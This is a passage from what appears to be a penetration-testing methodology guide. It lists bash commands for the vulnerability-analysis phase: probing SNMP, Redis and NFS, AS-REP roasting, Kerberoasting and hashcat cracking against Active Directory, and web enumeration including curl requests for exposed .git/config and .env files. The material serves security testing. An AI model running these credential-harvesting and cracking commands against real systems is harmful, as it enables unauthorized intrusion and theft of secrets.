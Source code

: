 ### Phase 3: Vulnerability Analysis

**Don't exploit yet! Just identify vulnerabilities.**

**Quick Win Detection:**
```bash
# SNMP with default community strings
sudo nmap -sU -p 161 --open 10.10.10.0/24
for ip in $(cat snmp_hosts.txt); do
    snmpwalk -v2c -c public $ip | grep -i "password\|credential"
done

# Redis without authentication
for ip in $(cat redis_hosts.txt); do
    redis-cli -h $ip ping 2>/dev/null && echo "$ip has no auth!"
done

# NFS exports
for ip in $(cat nfs_hosts.txt); do
    showmount -e $ip
done

# Default credentials
# Try admin:admin, root:root on all services
```

**Active Directory Vulnerability Detection:**
```bash
# Assumes you have ANY domain credentials

# 1. SMB Signing Check (CRITICAL if disabled on DC)
netexec smb DC_IP --gen-relay-list relay_targets.txt
cat relay_targets.txt  # Is DC in here?

# 2. AS-REP Roasting
impacket-GetNPUsers DOMAIN/USER:PASS -dc-ip DC_IP -request -outputfile asrep.txt

# 3. Kerberoasting
impacket-GetUserSPNs DOMAIN/USER:PASS -dc-ip DC_IP -request -outputfile kerberoast.txt

# 4. Start cracking (background)
hashcat -m 18200 asrep.txt /usr/share/wordlists/rockyou.txt &
hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt &

# 5. BloodHound collection
bloodhound-python -u USER -p 'PASS' -d DOMAIN -ns DC_IP -c All --zip

# 6. Share enumeration
netexec smb 10.10.10.0/24 -u USER -p 'PASS' --shares
```

**Web Application Vulnerability Detection:**
```bash
# For each web app:

# 1. Technology fingerprinting
whatweb http://TARGET

# 2. Directory enumeration
gobuster dir -u http://TARGET -w /usr/share/wordlists/dirb/common.txt -x php,html,txt

# 3. Check for quick wins
curl http://TARGET/.git/config
curl http://TARGET/.env
curl http://TARGET/robots.txt

```